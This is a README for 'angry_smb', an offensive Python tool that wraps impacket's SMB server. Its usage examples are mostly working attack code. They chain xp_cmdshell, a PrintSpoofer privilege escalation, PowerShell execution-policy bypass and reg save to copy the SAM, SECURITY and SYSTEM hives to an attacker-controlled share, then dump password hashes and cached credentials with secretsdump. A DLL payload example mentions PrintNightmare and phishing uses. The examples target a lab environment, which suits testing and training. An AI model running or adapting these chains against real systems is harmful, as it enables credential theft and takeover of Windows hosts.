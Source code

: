 # angry_smb
Use impackets smb server as a context manager!

Angry SMB offers a neat way to abstract running an SMB server in a tidy context manager which cleans up after itself. Additionally it offers an object oriented way to handle files within the share as well as files we expect to be in the share at some point in the future.

# Usage
The following code snippet shows a multi staged attack to secretsdump from a mssql shell in Game Of Active Directory. This showcases most of the neat features Angry SMB has to offer.

```python3
# This is an example how to use the temporary SMB server to dump the secrets from an impacket-mssqlclient shell
# the environment used was GOAD with the sql_svc user on 192.168.56.23 (no defender)

import logging
from tempsmbserver import TempSMB

from impacket.examples.secretsdump import LocalOperations, SAMHashes, LSASecrets

# using the Temporary SMB server as a context manager
with TempSMB(local_ip="192.168.56.106") as smb:
    # creating future objects which we expect to get
    # those are available as objects but are not real files - those will be available after the successful attack
    sam = smb.future_file(friendly_name="sam")
    system = smb.future_file(friendly_name="system")
    security = smb.future_file(friendly_name="security")

    # creating the registry commands as a powershell file in the smb server
    # the actual file handling is fully abstracted in the TempSMB and SMBFile objects
    sam_dump_payload = f"reg save hklm\\sam {sam.remote_path}\nreg save hklm\\security {security.remote_path}\nreg save hklm\\system {system.remote_path}"
    sam_dump_file = smb.create_temp_file(sam_dump_payload, ext=".ps1")

    # copying the printspoofer executable into the temporary smb server and creating a powershell command to run it
    # instead of defining a file by its content an existing file is copied and shared
    # again all file handling is abstraced into the objects
    print_spoofer_file = smb.create_temp_file_from_file("/home/kali/potatos/PrintSpoofer64.exe")
    stager = f'{print_spoofer_file.remote_path} -c "powershell.exe -ep bypass {sam_dump_file.remote_path}"'
    stager_file = smb.create_temp_file(stager, ext=".ps1")

    # creating the xp_cmdshell command to be run in the impacket-mssqlclient shell
    print("run this on your mssql shell:")
    print(f"xp_cmdshell powershell.exe -ep bypass {stager_file.remote_path}")

    # awaiting the future files to actually be written to the smb server
    # this blocks execution until all the awaited files are present in the share
    # file objects created via the TempSMB methods can be accessed by key on the TempSMB object if it has a friendly name
    sam.await_me()
    system.await_me()
    security.await_me()
    print(f'SAM received at {smb["sam"].local_path} - {smb["sam"].exists()}')
    print(f'SYSTEM received at {smb["system"].local_path} - {system.exists()}')
    print(f'SECURITY received at {security.local_path} - {security.exists()}')

    # basic secretsdump code with impacket
    logging.getLogger().setLevel(logging.INFO)

    local_ops = LocalOperations(system.local_path)
    boot_key = local_ops.getBootKey()
    sam_hashes = SAMHashes(sam.local_path, boot_key)
    lsa_secrets = LSASecrets(security.local_path, boot_key)
    print("="*10+"SAM"+"="*10)
    sam_hashes.dump()
    print("=" * 10 + "CHACHED CREDS" + "=" * 10)
    lsa_secrets.dumpCachedHashes()
    print("=" * 10 + "SECRETS" + "=" * 10)
    # commented out for cleaner terminal output
    #lsa_secrets.dumpSecrets()

    sam_hashes.finish()
    lsa_secrets.finish()


```


Fortunately there are also some payload classes which abstract some use cases - the next code snippet does the same as the previous

```python3
from payload import SamDumpPowershell, PrintSpoofer, PowershellRunner
from tempsmbserver import TempSMB
from stolen_from_impacket.secretsdump import dump

local_ip = "192.168.56.106"
print_spoofer = True

with TempSMB(local_ip=local_ip) as smb:
    sam_dump_payload = SamDumpPowershell(smb)
    if print_spoofer:
        print_spoofer_file = smb.create_temp_file_from_file("/home/kali/potatos/PrintSpoofer64.exe")
        print_spoofer_payload = PrintSpoofer(smb, input_files=[print_spoofer_file, sam_dump_payload.file])
        runner_payload = PowershellRunner(smb, [print_spoofer_payload.file])
    else:
        runner_payload = PowershellRunner(smb, [sam_dump_payload.file])

    print("ANGRY SMB READY:")
    print(f"xp_cmdshell {runner_payload.payload}")
    sam_dump_payload.await_output_files()

    print("="*10 + "secretsdump" + "="*10)
    dump(sam_dump_payload.sam.local_path, sam_dump_payload.system.local_path, sam_dump_payload.security.local_path)


```

There are also payload classes to execute Powershell from a dll or xll e.g. for Printnightmare or xll phishing attacks. The next code snipped also implements a back channel which writes the command output to an output file in the share. Please refer to the examples folder.

```python3
from payload import CRunPowershell
from tempsmbserver import TempSMB

local_ip = "192.168.56.106"


with TempSMB(local_ip=local_ip) as smb:
    powershell_payload = "net user skid IHaveNotReadTheCode /add; net user skid /delete;"
    return_channel = smb.future_file(ext=".out")
    powershell_file = smb.create_temp_file(f"{powershell_payload} > {return_channel.remote_path}", ext=".ps1")
    dll_payload = CRunPowershell(smb, [powershell_file])
    print(dll_payload.file.remote_path.replace("/", "\\"))
    return_channel.await_me()
    return_channel.print(cringe_utf_16=True)

```
***
# IMPORTANT!!
The examples folder is NOT meant to provide ready to use tools but act as an inspiration and to showcase the capabilities of Angry SMB!! Ready to use tools might or might not come in the future - I wouldnt bet on it though!!
***
# Requirements
- impacket
- mingw

both should be available on kali

***
# Documentation (kinda)
## TempSMB
### create_temp_file(content, friendly_name, ext)
Creates a new file in the share and returns an SMBFile object
### create_temp_file_from_file(existing_file, friendly_name)
Copies an existing file into the share and returns an SMBFile object
### future_file(ext, friendly_name)
Creates an SMBFile object for a file which doesnt exist yet and returns it
### connection_string()
Returns the location of the share as seen from remote
## SMBFile
### exists()
Checks if the file exists on the file system
### await_me(timeout)
Blocks execution until the file exists on the file system or until timeout
### print(cringe_utf_16)
Prints the content of the file - has some rudimentary UTF-16 cringe handling for bytes which break the output

## Payloads
Refer to the examples folder.

  
